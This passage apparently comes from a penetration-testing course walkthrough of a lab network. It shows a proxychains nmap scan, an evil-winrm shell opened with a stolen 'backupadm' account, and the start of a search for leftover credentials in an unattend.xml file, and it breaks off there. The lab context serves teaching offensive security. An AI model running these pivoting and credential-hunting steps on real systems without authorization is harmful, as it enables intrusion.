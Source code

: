 <pre><code class="language-shell-session">[!bash!]$ proxychains nmap -sT -p 5985 172.16.8.50

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 14:59 EDT
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.50:80-&lt;--timeout
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.50:5985-&lt;&gt;&lt;&gt;-OK
Nmap scan report for 172.16.8.50
Host is up (0.12s latency).

PORT     STATE SERVICE
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
</code></pre>
<p>The host <code>172.16.8.50</code>, or <code>MS01</code> is the only one left that we haven't gotten into aside from the Domain Controller, so let's give it a try using <code>evil-winrm</code> and the credentials for the <code>backupadm</code> user.</p>
<p>It works, and we're in!</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains evil-winrm -i 172.16.8.50 -u backupadm 

ProxyChains-3.1 (http://proxychains.sf.net)
Enter Password: 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.50:5985-&lt;&gt;&lt;&gt;-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents&gt; hostname
ACADEMY-AEN-MS01
</code></pre>
<p>At this point, we could use this evil-winrm shell to further enumerate the domain with a tool such as PowerView. Keep in mind that we'll need to use a PSCredential object to perform enumeration from this shell due to the <a href="https://academy.hackthebox.com/module/143/section/1573">Kerberos "Double Hop" problem</a>. Practice this technique and see what other AD enumeration tools you may be able to use in this way.</p>
<p>Back to the task at hand. Our user is not a local admin, and <code>whoami /priv</code> does not turn up any useful privileges. Looking through the <code>Windows Privilege Escalation</code> module, we don't find much interesting so let's hunt for credentials. After some digging around, we find an <code>unattend.xml</code> file leftover from a previous installation.</p>
<pre><code class="language-shell-session">*Evil-WinRM* PS C:\Users\backupadm\desktop&gt; cd c:\panther

|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.50:5985-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.50:5985-&lt;&gt;&lt;&gt;-OK
*Evil-WinRM* PS C:\panther&gt; dir
